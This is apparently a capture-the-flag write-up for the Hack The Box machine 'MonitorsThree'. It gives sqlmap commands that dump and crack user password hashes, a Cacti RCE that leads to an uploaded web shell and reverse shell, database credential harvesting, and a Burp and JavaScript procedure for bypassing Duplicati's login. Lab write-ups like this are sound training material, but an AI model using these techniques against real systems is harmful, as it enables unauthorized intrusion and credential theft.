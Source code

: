 +++
title = 'MonitorsThree'
Topics = ['medium','linux']
date = 2024-11-26T19:01:10Z
draft = true
+++

# monitorsthree

![lesgo.png](/monitorsthree/lesgo.png)


## User

![etchosts](/monitorsthree/etchosts.png)
```
sudo bash -c "echo '10.10.11.30    monitorsthree.htb'>> /etc/hosts"
```
![port80](/monitorsthree/port80.png)
Can't see anything of interest off the bat lets do some enumeration

![cati](/monitorsthree/cacti.png)
```
ffuf -u http://monitorsthree.htb -H "Host:FUZZ.monitorsthree.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -c -ac
```
![app](/monitorsthree/cactiapp.png)
Found the app login section

![sql](/monitorsthree/sql.png)
The password recovery section was vulnerable to [sql injection](https://owasp.org/www-community/attacks/SQL_Injection)

![dbs](/monitorsthree/dbs.png)
```
sqlmap -u monitorsthree.htb/forgot_password.php --forms --crawl=2 --dbs
```


![tables](/monitorsthree/tables.png)
```
sqlmap -u monitorsthree.htb/forgot_password.php --forms --crawl=2 --level=5 --risk=3 -D monitorsthree_db --tables

```

![colums](/monitorsthree/colums.png)
```
sqlmap -u monitorsthree.htb/forgot_password.php --forms --crawl=2 --level=5 --risk=3 -D monitorsthree_db -T users -columns
```

![userspass](/monitorsthree/userspass.png)
```
sqlmap -u monitorsthree.htb/forgot_password.php --forms --crawl=2 --level=5 --risk=3 -D monitorsthree_db -T users -C username,password --dump
```

```
Database: monitorsthree_db
Table: users
[4 entries]
+-----------+----------------------------------+
| username  | password                         |
+-----------+----------------------------------+
| janderson | 1e68b6eb86b45f6d92f8f292428f77ac |
| admin     | 31a181c8372e3afc59dab863430610e8 |
| dthompson | 633b683cc128fe244b00f176c8a950f5 |
| mwatson   | c585d01f2eb3e6e1073e92023088a3dd |
+-----------+----------------------------------+
```

![crackstation](/monitorsthree/crackstation.png)
```
admin : greencacti2001
```

![credsboth](/monitorsthree/credsboth.png)
my creds for admin worked on both monitorsthree and the subdomain  cacti . monitorsthree 

![rce](/monitorsthree/rce.png)
I saw that cacti was running 1.2.26 and found a [rce](https://github.com/cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88) for it 

![connection](/monitorsthree/connection.png)
I uploaded a [p0wny-shell](https://github.com/flozz/p0wny-shell) shell and tried out [revshells](revshell.com) until one got me a connection

![mysql](/monitorsthree/mysqlcreds.png)
I found a db file that had credentials for mysql

![creden](/monitorsthree/creden.png)
```
mysql -ucactiuser -pcactiuser -e "USE cacti;" -e "Select * from user_auth;"
```
I remeber the terminal being buggy so i just used the webshell
```
1	admin	$2y$10$tjPSsSP6UovL3OTNeam4Oe24TSRuSRRApmqf5vPinSer3mDuyG90G	0	Administrator	marcus@monitorsthree.htb			on	on	on	on	2	1	1	1	1	on	-1	-1	-1		0	0	436423766
3	guest	$2y$10$SO8woUvjSFMr1CDo8O3cz.S6uJoqLaTe6/mvIcUuXzKsATo77nLHu	0	Guest Account	guest@monitorsthree.htb			on	on	on		1	1	1	1	1		-1	-1	-1		0	0	3774379591
4	marcus	$2y$10$Fq8wGXvlM3Le.5LIzmM9weFs9s6W2i1FLg3yrdNGmkIaxo79IBjtK	0	Marcus	marcus@monitorsthree.htb		on	on	on	on	on	1	1	1	1	1	on	-1	-1			0	0	1677427318
```
![marcuscreds](/monitorsthree/marcuscreds.png)
```
hashcat -a 0 -m 3200 hash.txt /usr/share/seclists/rockyou.txt hash.txt -show
```
```
marcus : 12345678910
```


![ssnoworl](/monitorsthree/ssnowork.png)
Couldnt ssh into marcus

![id_rsa](/monitorsthree/id_rsassh.png)
Couldnt su in the webshell either so got the terminal again and got the ssh key and then used that to ssh in 


## Root

![netstat](/monitorsthree/netstat.png)
```
netstat -tnlp
```


![duplicati](/monitorsthree/duplicati.png)
```
ssh -i id_rsa marcus@10.10.11.30 -L 127.0.0.1:8080:127.0.0.1:8080

```

![auth bypass](/monitorsthree/authbypass.png)
Found a way to bypass the authentication 

![duplicati server](/monitorsthree/dserver.png)
First step was finding the duplicati server config


![server pass](/monitorsthree/serverpass.png)
```
Wb6e855L3sN9LTaCuwPXuautswTIQbekmMAr7BrK2Ho=
```
Next convert server passphrase from base64 to hex
![convert](/monitorsthree/base64-hex.png)
```
59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a
```

![intercept](/monitorsthree/intercept.png)
turn on intercept on burp and then right click and hit "do intercept" "response to this request"


hit forward
![noncea](/monitorsthree/noncea.png)
make sure you mark down this nonce  (this will be diffrent for everyone)
```
wqCENkgcvVIlDPe9Q3HpaNhz+YXmYk8FNLoOQfIzCEM=
```



![formula](/monitorsthree/formula.png)
```
var saltedpwd = 'HexOutputFromCyberChef'; // Replace with the Hex output from step 6
var noncedpwd = CryptoJS.SHA256(CryptoJS.enc.Hex.parse(CryptoJS.enc.Base64.parse('NonceFromBurp') + saltedpwd)).toString(CryptoJS.enc.Base64); // Replace 'NonceFromBurp' with the intercepted nonce
console.log(noncedpwd);
```
our hex is the 59be string and our 'noncefromburp' is our wqCE


![nonced1](/monitorsthree/nonced1.png)
```
j65vMghwC8l+b+RjSm2VvMNsA43fKKsf/jnqDW5FfTo=

```
back on burp hit forward again
![password var](/monitorsthree/passwordvar.png)
we need to replace this 1ak variable with our 'j65vM' fully nonced string

![pasted in](/monitorsthree/pastedin.png)
then we need to url encode it
higlight it in burp and hit ctrl + u


![url encoded](/monitorsthree/urlencoded.png)

now were ready send it on


![adn were in](/monitorsthree/adnwerein.png)
we can turn intercept off and just focus on our browser now

![root txt ](/monitorsthree/root.txt.png)
What i did here was utilise the back up restoring software to restore the root.txt to marcus's folder

![pwnd](/monitorsthree/pwnd.png)






